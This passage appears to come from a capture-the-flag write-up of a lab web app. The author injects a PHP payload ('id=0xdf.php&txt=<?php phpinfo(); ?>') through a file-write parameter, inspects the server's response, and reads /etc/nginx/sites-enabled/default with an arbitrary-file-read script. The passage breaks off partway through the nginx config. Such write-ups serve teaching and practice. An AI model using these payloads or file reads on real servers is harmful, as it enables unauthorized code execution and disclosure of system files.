 It shows up on the page:

![image-20230515151034665](https://0xdf.gitlab.io/img/image-20230515151034665.png)

And visiting `/content/0xdf.txt` downloads the text file.

I’ll try with:

```
id=0xdf.php&txt=<?php+phpinfo();+?>

```

It seems to work, but visiting `/content/0xdf.php`, it just downloads the file, doesn’t execute it. In Burp, I’ll look at the response:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 15 May 2023 19:13:20 GMT
Content-Type: application/octet-stream
Content-Length: 58
Last-Modified: Mon, 15 May 2023 19:13:04 GMT
Connection: close
ETag: "64628440-3a"
Content-Disposition: attachment; filename=0xdf.php
Accept-Ranges: bytes

<div class = "blog-text"><?php echo "hello 0xdf"; ?></div>

```

It is returning this as a file, rather than executing it as PHP. This is likely due to the nginx configuration that is matching on this location and just adding the `Content-Disposition` header to set it as an attachment, rather than passing it to PHP for execution.

### Pro Access

#### nginx Config

To get a better look at how nginx is hosting and see if I missed any sub domains, I’ll look at the config file (using `grep` to remove comments):

```
oxdf@hacky$ python file_read.py /etc/nginx/sites-enabled/default | grep -vP "^\s*#"

server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root \/var\/www\/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location \/ {
                try_files $uri $uri\/ =404;
        }
}

server {
        listen 80;
        listen [::]:80;

        root \/var\/www\/microblog\/app;

        index index.html index.htm index-nginx-debian.html;
```